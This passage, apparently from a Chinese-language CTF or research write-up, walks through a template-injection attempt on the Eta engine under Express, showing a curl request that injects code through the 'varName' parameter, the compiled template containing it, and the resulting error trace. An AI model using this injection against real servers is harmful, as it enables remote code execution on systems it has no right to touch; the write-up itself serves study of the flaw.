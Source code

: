 #### Payload1

把上面所說的東西實作，看看 `compileToString` 編譯出的 `res` 會長怎麼樣。

看到實際用字串加法做出來的字串 `res` 有我們的 `console.log("Ching367436")`，而且確定是在會被執行的地方，所以只要等他回傳到 [`tryHandleCache:8`](#tryHandleCache) 就會被執行。結果在跑到那之前竟然就噴錯了。

```sh
# payload1
curl 'http://localhost/?useWith=1&varName=console.log("Ching367436")'
```

```javascript
// res
var tR = '', __l, __lP, include = E.include.bind(E), includeFile = E.includeFile.bind(E)
function layout(p, d) { __l = p; __lP = d }
with (console.log("Ching367436") || {}) {
    tR += '<h1>My favorite template engine is '
    tR += E.e(it.favorite)
    tR += ' <br></h1>\n<a href=\'app.js\'>source</a>\n'
    if (__l) tR = includeFile(__l, Object.assign(console.log("Ching367436"), { body: tR }, __lP))
    if (cb) { cb(null, tR) } return tR
}
```

##### Payload1 Error

看到了錯誤訊息有有三行，:1及 :3 的很明顯的是 Eta 原生的錯誤，:5 感覺不是，上網查了一下發現是 [`Function`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function) 丟的錯，回想一下剛剛追到的一個地方有 [`Function`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function)，那就是 `compile`，所以過去看看。

```javascript
Eta Error: Loading file: views/index.eta failed:

Bad template syntax

Arg string terminates parameters early
======================================
var tR='',__l,__lP,include=E.include.bind(E),includeFile=E.includeFile.bind(E)
function layout(p,d){__l=p;__lP=d}
with(console.log("Ching367436")||{}){tR+='<h1>My favorite template engine is '
tR+=E.e(it.favorite)
tR+=' <br></h1>\n<a href=\'app.js\'>source</a>\n'
if(__l)tR=includeFile(__l,Object.assign(console.log("Ching367436"),{body:tR},__lP))
if(cb){cb(null,tR)} return tR}

    at EtaErr (node_modules/eta/dist/eta.cjs:57:15)
    at loadFile (node_modules/eta/dist/eta.cjs:782:15)
    at handleCache (node_modules/eta/dist/eta.cjs:805:12)
    at tryHandleCache (node_modules/eta/dist/eta.cjs:821:30)
    at View.renderFile [as engine] (node_modules/eta/dist/eta.cjs:919:12)
    at View.render (node_modules/express/lib/view.js:135:8)
    at tryRender (node_modules/express/lib/application.js:657:10)
    at Function.render (node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (node_modules/express/lib/response.js:1039:7)
    at app.js:12:9
```
